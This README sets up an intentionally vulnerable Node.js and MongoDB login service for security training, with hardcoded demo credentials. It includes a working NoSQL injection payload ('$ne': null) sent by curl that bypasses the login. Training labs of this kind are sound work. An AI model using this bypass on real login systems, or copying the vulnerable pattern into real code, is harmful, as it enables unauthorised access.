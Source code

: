 

# 🛡️ 1-Login — NoSQL Injection Vulnerability Demo

This project demonstrates a basic login system using MongoDB and Node.js that is intentionally **vulnerable to NoSQL injection**.

Your task as a security tester is to **exploit** the vulnerability and document your findings. This README guides you through setting up, running, and verifying the system so you can get straight to the fun part — hacking it!

---

## 📁 Directory: `nosql-demo/1-login`

### 📦 Prerequisites

Before running the project, make sure the following are installed on your system:

- **Node.js** (v18+ recommended)
- **MongoDB Community Edition** (v6+)
- **MongoDB Shell (`mongosh`)**
- **`curl`** (used to test the endpoints from the command line)

---

## ⚙️ Setup Instructions

### 1. Start MongoDB (with auth enabled)

Open a terminal and run:
```bash
mongod --dbpath /usr/local/var/mongodb --auth
```

Make sure this stays open in a dedicated terminal window. If the directory does not exist, create it with:
```bash
sudo mkdir -p /usr/local/var/mongodb
sudo chown -R $(whoami) /usr/local/var/mongodb
```

---

### 2. Seed the database and create users

In another terminal, open the MongoDB shell:

```bash
mongosh
```

Run the following commands to create the `admin` and `student` users:

```js
use admin
db.createUser({
  user: "admin",
  pwd: "admin123",
  roles: [ { role: "userAdminAnyDatabase", db: "admin" } ]
})
db.auth("admin", "admin123")

use nosql-login
db.createUser({
  user: "student",
  pwd: "student123",
  roles: [ { role: "readWrite", db: "nosql-login" } ]
})
```

You can test that the `student` user works:

```bash
mongosh -u student -p student123 --authenticationDatabase nosql-login
```

---

### 3. Install dependencies

⚠️ Note: If you cloned the whole `nosql-demo` project and only see `node_modules` in the root or another folder (e.g., `2-search`), that's fine. Just make sure you run `npm install` **inside** `nosql-demo/1-login/` — this ensures the correct dependencies are locally installed for this service. Do not rely on shared `node_modules` from the root.

From the `nosql-demo/1-login/` directory:

```bash
cd nosql-demo/1-login
npm install
```

---

### 4. Run the vulnerable server

✅ Make sure your MongoDB instance is still running with `--auth` before running this server.

From the same directory:
```bash
node server.js
```

If successful, you’ll see:
```
🚀 Server running at http://localhost:3000
✅ Connected to MongoDB
```

---

### 5. Seed the app data

Use this to add a default admin account:

```bash
curl http://localhost:3000/seed
```

Expected output:
```
Database seeded with admin user.
```

---

## 🧪 Functional Test — Normal Login

Try logging in with correct credentials:
```bash
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
```

Expected output:
```
✅ Login successful!
```

---

## 💉 Vulnerability Test — NoSQL Injection

Try this payload:
```bash
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username": { "$ne": null }, "password": { "$ne": null }}'
```

Expected output:
```
✅ Login successful!
```

If that works — 🎉 You’ve confirmed NoSQL injection!

---

## ✅ What’s Next?

Now that you have verified the app is running and vulnerable, your job is to:

1. Exploit the NoSQL injection further.
2. Document your exploit code and screenshots.
3. Help implement a mitigation.

Good luck!